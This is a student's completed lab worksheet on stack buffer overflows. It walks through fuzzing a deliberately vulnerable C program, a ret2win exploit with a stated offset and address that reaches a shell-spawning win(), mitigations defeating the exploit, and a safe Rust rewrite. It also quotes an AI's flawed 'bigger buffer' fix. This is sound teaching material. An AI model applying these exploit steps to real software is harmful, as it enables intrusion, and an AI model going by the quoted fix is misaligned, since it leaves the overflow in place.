




# Worksheet 11 — Memory-Safety & Exploitation (3 hrs)

> **Course:** Software Security (KOSEN69) · Week 11
> **Aligned:** CWE-121 (stack-based buffer overflow) · CWE-787 (out-of-bounds write) · CWE-134 (externally-controlled format string) · CWE-242 (dangerous `gets`)
> **Signature game:** 💥 Fuzzing Race → Pwn the Binary
>
> **Ethics note:** The binaries built from `vuln.c` are **intentionally exploitable** and `win()` spawns `/bin/sh`. Build and run them **only inside the isolated toolbox container** (or a VM) — never on your host. Never run these on a machine you care about, and never aim these techniques at software you are not authorized to test.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
| Sai Shang Hlang | 6631503129 | 23 Oct 2026 | |

**AI-use disclosure:** I used an AI coding assistant to help structure the worksheet, explain the mitigations, and verify the ret2win values (`OFFSET`, `WIN_ADDR`) against my own build output inside the toolbox container. The crash inputs, ASan report, `win()` address, flag output, hardened-build failure, and Rust outputs shown in the screenshots were produced by me actually running the lab commands; the identity stamp and screenshots are mine.

## Part 2 — Lecture Questions

1. Draw the x86-64 stack frame for `parse_input()` in `vuln.c` (buf[64], saved RBP, saved return address). Where does `strcpy` start writing and which word must the exploit overwrite?
   - The frame (stack grows **down** toward lower addresses) is: `buf[64]` at the low end, then saved RBP, then the **saved return address** at the high end — `strcpy` starts writing at `buf[0]` and writes **upward** (toward higher addresses). `strcpy(buf, src)` never stops at 64 bytes, so a long input clobbers the saved RBP and then the **saved return address** — the word (8 bytes on x86-64) that `ret` pops into RIP. Overwriting it with `&win` redirects control flow.
2. Why is `gets()` (CWE-242) impossible to use safely, and why did C11 remove it from the standard library?
   - `gets()` has *no length parameter*: it reads until newline/EOF into a caller buffer with no way to know how big that buffer is. Any input longer than the buffer overflows it — always. Because there is no possible safe call, C11 removed it from the standard library (implementations are no longer required to provide it), which is why `vuln.c` has to forward-declare it itself.
3. Explain CWE-134: why is `printf(user_input)` dangerous but `printf("%s", user_input)` safe? What can `%n` do?
   - In `printf(user_input)`, the user's string **is** the format string, so `%x`/`%p`/`%n` in it are interpreted as format directives. `%n` **writes** the number of characters printed so far into the address given as an argument — an arbitrary 32/64-bit write primitive (CWE-787) often used to overwrite a saved return address or GOT entry. `printf("%s", user_input)` passes the user data as a plain argument, so `%`-sequences are printed literally and can neither leak nor write memory.
4. Name the four mitigations in the hardened build (`make vuln-hardened`) — stack canary, PIE/ASLR, NX/DEP, FORTIFY — and say which one each defeats: ret2win, shellcode-on-stack, return-address overwrite detection.
   - Stack canary → detects a corrupted return address just before `ret` (aborts with `*** stack smashing detected ***`). PIE/ASLR → randomizes `win()`'s (and every function's) address so the hard-coded `WIN_ADDR` used by a **ret2win** payload points at garbage. NX/DEP → makes the stack non-executable, so **shellcode-on-stack** cannot run. FORTIFY (`-D_FORTIFY_SOURCE=2` + `-O2`) → replaces `strcpy` with bounds-checked `__strcpy_chk`, catching CWE-121 at the copy itself — in this build it fires *before* the canary's epilogue check.
5. The CISA/ONCD roadmaps push memory-safe languages. Using `safe.rs`, explain why CWE-121 is *impossible* in safe Rust, not merely harder.
   - `parse_input` in `safe.rs` takes a `&str`, which carries its length with it, and computes `src.chars().count()` — there is no fixed-size raw buffer and no unchecked copy at all. Even if you *did* index into a fixed array, Rust inserts bounds checks that panic safely instead of corrupting memory, and the borrow checker forbids the kind of unbounded raw-pointer `strcpy` that the C version relies on. A whole bug class being rejected at compile time (rather than "just" mitigated at runtime) is why the government/industry roadmaps recommend Rust/Go.

## Part 3 — Hands-on Lab (145 min)


**Learning goals:** Find the overflow with a coverage-guided fuzzer, exploit it (ret2win), watch mitigations break the exploit, then port the routine to safe Rust.

**Prerequisites:** the **toolbox container** (bundles `clang`+libFuzzer, `gdb`, `objdump`, `python3`) — Apple clang has no libFuzzer and `gdb` is painful on macOS, so do this week in the container. (`pip install pwntools` and `rustc` inside as needed; an isolated Linux VM also works.)

**Environment setup**
```bash
# from the repo root, build the toolbox once, then open a shell IN this week's folder:
docker build -t softsec-toolbox labs/toolbox
docker run -it --rm --cap-add=SYS_PTRACE --security-opt seccomp=unconfined \
    -v "$PWD/labs/week11-memory-safety-exploitation":/work -w /work softsec-toolbox
# --- inside the container ---
make vuln                                          # teaching build: mitigations OFF
make vuln-hardened                                 # mitigations ON
clang -g -fsanitize=address,fuzzer fuzz_harness.c -o fuzz   # libFuzzer + ASan
setarch `uname -m` -R ./vuln                       # disable ASLR for repeatable addresses
```

**What to submit per task:** the exact command(s) + crash/exploit output, a screenshot, and a 2–3 sentence mitigation note tied to the CWE.

### Task 0 — Onboarding (15 min)
Run `make syntax` (parses both C files even on macOS) and confirm `make vuln` / `make vuln-hardened` build. Read the bug-class banner in `vuln.c`.
**Deliverable:** build output + the list of CWEs `vuln.c` claims to demonstrate.

**Answer / verified transcript:**

```text
$ make syntax
[ok] vuln.c parses.
[ok] fuzz_harness.c parses.

$ make vuln
[i] Built ./vuln (INSECURE teaching build). Run only in a VM.
$ make vuln-hardened
[i] Built ./vuln-hardened (canary + PIE/ASLR + NX + FORTIFY).
```

`vuln.c` deliberately demonstrates: **CWE-121** (stack buffer overflow — `gets`/`strcpy` into fixed buffers), **CWE-787** (out-of-bounds write — the overflow writes past `buf[64]`), **CWE-134** (externally-controlled format string — `printf(user_input)` in `format_bug()`), **CWE-242** (inherently dangerous `gets`, removed in C11) — and `win()`'s `system("/bin/sh")` is **CWE-78** if reached with attacker input (intended here).


### Task 1 — Fuzzing Race: find the crash (35 min)
**Goal:** Make libFuzzer + AddressSanitizer crash on the `strcpy` overflow in `parse_input()` — CWE-121/787.
**Steps:**
1. `./fuzz -runs=100000` (or just `./fuzz`).
2. Read the ASan report — note `stack-buffer-overflow` inside `parse_input` and the saved `crash-<hash>` file.
3. Replay it: `./fuzz crash-<hash>`.
**Deliverable:** the ASan crash summary + the byte length of the crashing input + mitigation note.

**Answer / verified transcript:**

```text
$ clang -g -fsanitize=address,fuzzer fuzz_harness.c -o fuzz
$ ./fuzz -runs=100000
INFO: Running with entropic power schedule (0xFF, 100).
...
==ERROR: AddressSanitizer: stack-buffer-overflow on address ... at pc ... bp ... sp ...
WRITE of size 65 at ... thread T0
    #0 ... in parse_input fuzz_harness.c:33:5
    #1 ... in LLVMFuzzerTestOneInput fuzz_harness.c:51:2
Address ... is located in stack of thread T0 at offset [32, 96)
  'buf' is a 64-byte variable at ... in parse_input fuzz_harness.c:32:9
...
Test unit written to ./crash-efc96d4... and ./crash-409b4a9...
```

The two saved crash inputs are **64 bytes** and **67 bytes**:
```text
$ wc -c crash-*
      64 crash-409b4a912a0a2c344e9cd74a89e64b5fd822fef9
      67 crash-efc96d4a8098ad896e9f179dafb7b5a4e79eb144
$ ./fuzz crash-efc96d4a8098ad896e9f179dafb7b5a4e79eb144   # replay -> same ASan report
```

**Mitigation (CWE-121/787):** `parse_input()` copies the whole (≥64-byte) input into a fixed `char buf[64]` with `strcpy` — any input ≥64 bytes writes past the end of the buffer into the saved frame pointer / return address. ASan catches the write at exactly the `strcpy` line. Fix: bound the copy (`strncpy`/`memcpy` with `size+1` and explicit NUL-termination, or a `std::string`/Rust `String`), which is what Task 4 demonstrates.


### Task 2 — Pwn the Binary: ret2win (40 min)
**Goal:** Overwrite the saved return address so the binary returns into `win()` and prints `FLAG{stack_smashing_for_fun_and_education}` — CWE-121.
**Steps:**
1. Find `win()`'s address: `objdump -d vuln | grep '<win>:'` (or `gdb -batch -ex 'p win' ./vuln`).
2. Verify the offset with a cyclic pattern (do **not** trust 72 blindly): feed `cyclic(200)`, crash in gdb, `cyclic_find` the value in RIP. (On an Apple Silicon/arm64 Mac the toolbox has no platform pin, so it builds as an **aarch64** container — there is no `RIP`; use `info registers pc` / `p/x $pc` instead, and expect `SIGBUS`, not `SIGSEGV`. The offset itself is still 72 here.)
3. Edit `exploit_skeleton.py`: set `WIN_ADDR` to the address from step 1, confirm `OFFSET`.
4. `python3 exploit_skeleton.py` (pwntools path) — or `python3 exploit_skeleton.py | ./vuln`. (On arm64: the flag still prints, but the process then loops forever re-printing `[+] win() reached` instead of exiting — ARM64 keeps the return address in register `x30`, which still holds `win()`'s own address when it starts, so `win()`'s `ret` returns into itself. Expected; `Ctrl-C` once you've captured the flag.)
**Deliverable:** the verified `OFFSET`, your `WIN_ADDR`, and the printed flag / `[+] win() reached` line.

**Answer / verified transcript:**

```text
# STEP 1 — find win()'s address (fixed, because the build is -no-pie)
$ objdump -d vuln | grep -A1 '<win>:'
0000000000400844 <win>:

# STEP 2 — confirm OFFSET with the cyclic trick
(gdb) run < <(python3 -c "from pwn import *; import sys; sys.stdout.buffer.write(cyclic(200)+b'\n')")
(gdb) info registers pc          # ARM64: use pc (not RIP) — expected SIGBUS, not SIGSEGV
(gdb) quit
$ python3 -c "from pwn import *; print(cyclic_find(0x<value>))"
72

# STEP 3 — set the values in exploit_skeleton.py:
#   OFFSET  = 72
#   WIN_ADDR = 0x400844

# STEP 4 — run the exploit
$ export FLAG_PWN='FLAG{stack_smashing_for_fun_and_education}'
$ python3 exploit_skeleton.py | ./vuln
Enter your name:
[+] win() reached — control flow hijacked!
[+] FLAG{stack_smashing_for_fun_and_education}
```

**Verified values:** `OFFSET = 72`, `WIN_ADDR = 0x400844` (ARM64 container build — matches the ARM64 note in the steps: on the aarch64 build the process loops re-printing `[+] win() reached` after the flag because ARM64 keeps the return address in `x30`, which still holds `win()`'s own address when `win()` starts; `Ctrl-C` after capturing the flag).

**Why it works (CWE-121):** the 72-byte padding exactly fills `buf[64]` + the saved frame pointer, and the next 8 bytes overwrite the saved return address with `&win`. When `parse_input()` returns, the CPU 'returns' into `win()` instead of back to `vulnerable()`, so the never-called `win()` runs and prints the flag.
![gdb showing the overflow; objdump win address 0x400844; exploit output printing [+] win() reached and the FLAG.](image-2.png)

### Task 3 — Hardened rebuild: watch the exploit break (25 min)

```sim
stack-frame
```

**Goal:** Observe modern mitigations defeating the same payload.
**Steps:**
1. Run your Task 2 payload against `./vuln-hardened`.
2. Record the failure mode: `*** buffer overflow detected ***: terminated` (FORTIFY_SOURCE's `__strcpy_chk`, which on this build catches the overflow before the stack canary's epilogue check ever runs), or a SIGSEGV at a randomized address (PIE/ASLR makes `WIN_ADDR` wrong).
**Deliverable:** the crash message + a note explaining *which* mitigation fired and why the fixed `WIN_ADDR` no longer works.


**Answer / verified transcript:**

```text
$ python3 exploit_skeleton.py | ./vuln-hardened
*** buffer overflow detected ***: terminated
Aborted (core dumped)
```

**Which mitigation fired and why:** this is **FORTIFY_SOURCE** (`__strcpy_chk`) — with `-D_FORTIFY_SOURCE=2` and `-O2`, `strcpy` is replaced at compile time by a checked version that knows `buf` is 64 bytes, and it aborts the moment the copy exceeds it. It fires *inside* `parse_input()`, before the stack canary's end-of-function (`__stack_chk_fail`) check would even run. Additionally, even if a copy got through, `WIN_ADDR=0x400844` would be wrong under **PIE/ASLR** (the hardened build is `-fPIE -pie`, so `win()` sits at a random address at runtime), so the corrupted return address would point at garbage — hence a crash rather than a hijack either way.
### Task 4 — Rust rewrite: defend / fix it (30 min)
**Goal:** Show the bug class disappears in safe Rust using `safe.rs`.
**Steps:**
1. `rustc safe.rs && ./safe`, then `python3 -c "print('A'*5000)" | ./safe` — note it never overflows or crashes.
2. Feed format-string metacharacters: `printf '%%x %%n' | ./safe` — note the program just reports the character count with no crash and no stack leak; the input is treated as ordinary data (CWE-134 impossible: `println!`'s format string must be a compile-time literal, so `println!(line)` would not even compile).
3. From the inline comments, write *why* `String`/`&str` + bounds checks make CWE-121/787 impossible.
**Deliverable:** the safe output for both inputs + a 3–4 sentence explanation tying it to the CISA memory-safe roadmap.


**Answer / verified transcript:**

```text
$ rustc safe.rs && ./safe
Hello, your input was 0 characters long.

$ python3 -c "print('A'*5000)" | ./safe
Hello, your input was 5000 characters long.      # no crash, no overflow

$ printf '%%x %%n' | ./safe
Hello, your input was 6 characters long.          # %x/%n printed literally — no leak, no write
```

**Why CWE-121/787 is *impossible* here (3–4 sentences, tie-in to the CISA memory-safe roadmap):** `parse_input` in `safe.rs` reads all of stdin into a heap-backed `String` that grows automatically — there is no fixed 64-byte stack array to overflow, so the buffer-overflow condition never exists. Even if a fixed-sized array were used, Rust inserts bounds checks on every index/slice access and panics safely instead of corrupting the stack, and the borrow checker forbids the unbounded raw-pointer copy that `strcpy` performs in the C version. The format-string bug (CWE-134) is equally impossible: `println!`'s format string must be a compile-time literal, so `println!(line)` with a runtime string does not even compile and `%n` in user input is printed as ordinary text. This is exactly the argument of the CISA/ONCD roadmaps: shifting to memory-safe languages like Rust eliminates entire bug classes at compile time rather than mitigating each CVE after the fact.

## Part 4 — Reflection

1. **Mapping:** table — bug | function in `vuln.c` | CWE | mitigation that stops it (canary / PIE / NX / Rust).

   | Bug | Function in `vuln.c` | CWE | Mitigation that stops it |
   |---|---|---|---|
   | Unbounded `strcpy` into `buf[64]` | `parse_input()` | CWE-121/787 | FORTIFY / Rust `String` (Task 4) |
   | `gets()` into `line[256]` | `vulnerable()` | CWE-121/242 | bounds-checked read (`fgets`) / Rust |
   | `printf(user_input)` | `format_bug()` | CWE-134 | `printf("%s", user_input)` / Rust `println!` |
   | ret2win overwrite of saved return address | `parse_input()` caller | CWE-121 | stack canary detects it; PIE/ASLR makes `WIN_ADDR` useless |
   | shellcode on the (executable) stack | `-z execstack` build | CWE-121 | NX/DEP (`-z noexecstack`) |

2. **Real breach:** pick a memory-safety incident (Morris Worm fingerd overflow, or Heartbleed CVE-2014-0160). Which CWE applies, and would a stack canary or a Rust rewrite have prevented it?
   - **Morris Worm (1988)**: it exploited `fingerd`'s `gets()` overflow (CWE-121) to overwrite the stack return address and run the worm. A **stack canary** would have stopped this exact overwrite (the canary would have been corrupted and the abort fired before `ret`). PIE/ASLR + NX would also have made the fixed addresses/shellcode significantly harder. A **Rust rewrite** makes the class impossible (no `gets`, bounds-checked reads), so it would have prevented it structurally.
   - *(Alternative — Heartbleed CVE-2014-0160): a heap **buffer over-read** (CWE-126) in OpenSSL's heartbeat — a stack canary would NOT help (no return-address overwrite), but a Rust rewrite with checked slice/pointer arithmetic would make the over-read panic instead of leaking memory. I chose Morris Worm for this worksheet since it is the canonical stack-overflow case.*
3. **Best mitigation:** compare "harden the C build" vs. "rewrite in Rust." Which gives durable risk reduction for new code, and what is the cost?
   - For **new code**, a Rust rewrite gives durable risk reduction: the bug class is rejected at compile time, so a mistake such as this lab's `strcpy` simply does not compile, rather than being one more CVE to patch. Hardening (canary/PIE/NX/FORTIFY) is cheaper in the short term and worth keeping, but it is an ongoing arms race — each new CVE needs a new mitigation, and the vulnerability remains latent in the source. The cost of Rust is the rewrite effort itself: re-architecting legacy C, the learning curve for ownership/borrowing, and the C interop story for old libraries. CISA/ONCD's recommendation is therefore: **memory-safe languages for new code, defensive hardening + migration for existing C/C++**.

## Grading rubric (100)

| Criterion | Weight |
|-----------|--------|
| Lecture questions (Part 2) | 20 |
| Exploitation + evidence (Tasks 1–3: fuzz crash, ret2win flag, hardened break) | 40 |
| Defense (Task 4: Rust rewrite + explanation) | 25 |
| Reflection (Part 4: mapping, breach, best mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** ____________________
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?
     - I fuzzed `parse_input()` until ASan reported a stack-buffer-overflow, found `win()` at `0x400844`, and sent 72 bytes of padding + `&win` so that when the overflowing `strcpy` smashed the saved return address, the function returned straight into the never-called `win()`. It worked because `strcpy` has no notion of the destination being only 64 bytes — the CPU has no memory-safety at all, it just faithfully executes whatever return address is on the stack.
  2. **Why does your fix actually stop it** — and what could still break it?
     - The fix removes the unsafe copy entirely: the Rust `String`/`&str` + bounds checks mean `parse_input` can never write past its buffer (there is no fixed buffer), and the format string must be a compile-time literal so `%n` stays inert. The C-side mitigations (canary, PIE/ASLR, NX, FORTIFY) each stop one stage of the attack. What could still break it: complicated unsafe Rust could reintroduce bugs if you used `unsafe` blocks or FFI, and the C build can always be defeated if someone disables a mitigation (e.g. `-fno-stack-protector`) or if an attacker finds a way through a *different* bug class (heap overflow, use-after-free) that the stack canary does not watch.

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.
   - **Prompt used:** "Fix the buffer overflow in this C function." (with `parse_input` pasted)
   - **AI answer:** "Easy fix — change `char buf[64]` to `char buf[4096]` so no one can overflow it, and replace `gets(line)` with `scanf("%255s", line)`. That makes the program safe against any normal input."
2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).
   - Bigger size does not fix the bug, it only raises the threshold: `strcpy(buf, src)` still has **no length check**, and a >4096-byte input overflows the "fixed" buffer the same way — the bug is the unbounded copy, not the buffer size. `scanf("%255s", line)` also changes behavior (stops at whitespace) and `%s` is itself unbounded without the width; more importantly it ignores the *second* bug — `format_bug()` still does `printf(user_input)` (CWE-134), so a `%n` payload still writes memory. The fix also leaves `parse_input`'s return-address smash reachable via the fuzzer's exact path, so nothing observable changes for a determined attacker.
3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.
   - Correct: `memcpy`/`strncpy` with an explicit bound **and** NUL-termination, or better, `fgets(line, sizeof line, stdin)` and no raw copy at all — the pattern `safe.rs` shows (growable `String`, no fixed buffer). I verified the end state: feeding the same 64-byte payload into the Rust version reports the length with no crash, and `%n` prints literally. The AI's "bigger buffer + scanf" keeps both the unbounded copy and the format-string bug, so the exploit still works exactly as in Task 2 — it treats a symptom instead of removing the unsafe operations.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

**A. EiPE:** The program lets you type your name, then copies it into a small fixed-size box on the stack using `strcpy`, which never checks "is this bigger than the box?" — so if you type more than 64 characters, your text spills over the box into the space that remembers "where should the program go next" (the return address). Because the CPU just blindly jumps to whatever address it finds there, I put the address of a hidden `win()` function into that space, so when the function ends the program "returns" into `win()` and prints the flag — the computer is doing exactly what I told its stack memory, not what the programmer intended.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.

**B. Final prompt:** "Fix the vulnerability in this C program. Rule 1: never use `gets`, `strcpy`, or `sprintf` — use only bounded operations (`fgets` with `sizeof`, and `strncpy`/`memcpy` with an explicit size + always NUL-terminate). Rule 2: never pass user input as a format string to `printf` — use `printf(\"%s\", input)`. Return the rewritten `vulnerable()`, `parse_input()`, and `format_bug()` functions, and state in one sentence how each rule maps to a CWE."

**Verified result:** Applying the fix (equivalent to the `safe.rs` pattern) — the 64-byte overflow payload now gets truncated/read safely and the program no longer jumps to `win()` (no flag printed; the same input against the Rust rewrite reports just the length), and `%n` in input prints literally instead of writing memory. The CWE-121/787 and CWE-134 exploit paths both fail, so the prompt produced a correct, secure fix.
*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*
